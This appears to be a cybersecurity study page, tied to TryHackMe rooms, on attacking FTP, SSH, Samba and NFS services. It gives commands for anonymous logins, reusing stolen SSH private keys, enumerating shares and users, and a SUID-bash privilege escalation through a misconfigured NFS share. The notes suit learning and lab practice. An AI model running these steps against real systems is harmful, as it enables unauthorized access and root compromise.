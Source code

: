 # Protocols & services notes

[![protocolsandservers](../../_badges/thmp/protocolsandservers.svg)](https://tryhackme.com/room/protocolsandservers)
[![protocolsandservers2](../../_badges/thmp/protocolsandservers2.svg)](https://tryhackme.com/room/protocolsandservers2)
[![networkservices](../../_badges/thmp/networkservices.svg)](https://tryhackme.com/room/networkservices)
[![networkservices2](../../_badges/thmp/networkservices2.svg)](https://tryhackme.com/room/networkservices2)

This couse IS NOT a course about protocols/services, the knowledge inside is partial as it's intended to be used in complement of the [Protocols & Services course](/info/networking/protocols/index.md). In this course, there will only be additional notes useful from a cybersecurity point of view.

> You may also check [Cyber/Bruteforce services](/cyber/exploitation/services/bruteforce.md) to try to bruteforce a service credentials.

<hr class="sep-both">

## File Transfer protocol - 21 (tcp)

[See FTP Protocol for more information](/info/networking/protocols/index.md#-ftp---21-tcp)

<div class="row row-cols-md-2"><div>

* Anonymous user may have been enabled

```bash
$ ftp anonymous@ip
```
</div></div>

<hr class="sep-both">

## SSH - 22 (tcp)

[See SSH service for more information](/info/networking/protocols/index.md#-ssh---22-tcp)

<div class="row row-cols-md-2"><div>

It's usually helpful to know that users may have a folder `.ssh` in their home, in which there are SSH Keys/... To avoid transferring passwords, servers can allow users to connect using an SSH private key. The key may be protected by a passphrase. Once the user enter the passphrase, the key is unlocked, and can be used by `ssh`.

* If there is no passphrase, a hacker can use it to connect to a server.
* Else, the hacker may try to [brute force it](/cyber/random/crack_password/index.md#ssh-private-key---passphrase-cracking).
</div><div>

The private key is usually called `id_rsa`, while the public key is usually called `id_rsa.pub`. You will find inside an email which was used to sign the key. The email can help finding the username.

```bash
# if you downloaded a key, 
# you need to set the permissions correctly
$ chmod 600 /tmp/id_rsa
$ ssh login@ip -i /tmp/id_rsa
```
</div></div>

<hr class="sep-both">

## Samba - 445 (or 139 before, tcp)

[See Samba service for more information](/info/networking/protocols/index.md#content--samba---445-or-139-before-tcp)

[![kenobi](../../_badges/thm/kenobi.svg)](https://tryhackme.com/room/kenobi)

<div class="row row-cols-md-2"><div>

* Find shares using nmap

```bash
$ nmap IP -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse
```

* Try connecting anonymously with no password (leave blank)

```bash
$ smbclient //IP/share_name -U Anonymous
```
</div><div>

The tool [enum4linux](https://github.com/CiscoCXSecurity/enum4linux) (0.7k ⭐) can be used to find shares, and users.

```bash
$ enum4linux options ip
$ enum4linux -a ip
# -a : list all
# -U : list of users
# -M : list of devices
# -S : list of shares
# -o : print os information
# -i : print printer information
# -v : verbose
```
</div></div>

<hr class="sep-both">

## NFS - 2049 (tcp)

[See NFS service for more information](/info/networking/protocols/index.md#-nfs---2049-tcp)

<div class="row row-cols-md-2"><div>

* Find mounted folders with nmap

```bash
$ nmap IP -p2049 --script=nfs-showmount
```
</div><div>

NFS configuration has a vulnerability when **root_squashing** is enabled. This option usually make it that if the local user is considered to be the user "nobody". But, if root_squashing is disabled, then the root user on the local machine will have root privilege inside the share.

```bash
# on the remote host, we create a bash inside the share
$ cp /bin/bash /share/sbash
# on the local host
# we give the file root privileges
$ sudo chown root /tmp/share/sbash
$ sudo chmod +s /tmp/share/sbash
# Then on the host, running the SUID file
# will run it as root
$ /share/sbash -p
```
</div></div>